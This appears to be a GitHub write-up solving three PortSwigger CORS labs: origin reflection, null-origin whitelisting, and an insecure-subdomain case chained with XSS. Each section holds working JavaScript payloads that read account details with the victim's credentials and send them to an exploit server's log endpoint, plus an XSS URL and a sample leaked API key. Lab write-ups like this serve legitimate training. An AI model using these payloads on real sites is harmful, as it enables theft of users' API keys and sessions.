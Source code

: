 # CORS

### Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

---



### [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Goal : craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.
- I saw this endpoint `/accountDetails` in the profile page source.

<img src=".\cors\1_1.png" style="zoom:80%;" />

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```javascript
  Origin: test.com
  ```

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src=".\cors\1_2.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
     location='<your-exploit-server>/log?key='+this.responseText;
  };
  
  </script>
  ```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

- Go back to the exploit server and click **Deliver exploit to victim**.

- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

```json
{  "username": "administrator",  "email": "",  "apikey": "SaCAyGSHgJD1QifqVNXAKr82XZKAra7S",  "sessions": [    "zLW0oQ69tCRLl2Dw3ZOu34JMgMPRa10k"  ]}
```



---



### [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```json
  Origin: test.com
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

-  resubmit it with the null value `Origin: null`

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src=".\cors\2_1.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
  location='<your-exploit-server>/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

  >the exploit exists in  sandbox iframe to be sent from null origin

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.



---





### [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```
  Origin: test.com 
  OR
  Origin: null
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

- go to any product and click `check stock` , note that it responds from a `stock` subdomain

- write this subdomain in the `Origin` header 

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header

<img src=".\cors\3_1.png" style="zoom:80%;" />





- now to exploit the CORS misconfiguration we need to find `XSS` in the stock subdomain or any other one

- Observe the two parameters in the stock subdomain , note that the  `productID` parameter is vulnerable to `XSS`
  ```bash
  http://stock.<your-lab-url>.web-security-academy.net/?productId=1%3cscript%3ealert(1)%3c%2fscript%3e2&storeId=2
  ```

  

<img src=".\cors\3_2.png" style="zoom:80%;" />



- now with `CORS+XSS` we can get the administrator api key by sending a request to the`stock` subdomain with the CORS exploit in the  `productID` parameter
-  go to the exploit server and enter the following HTML

```javascript
<script>
    document.location="http://stock.<your-lab-url>.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://.<your-lab-url>.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-<your-exploit-url>.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.





---









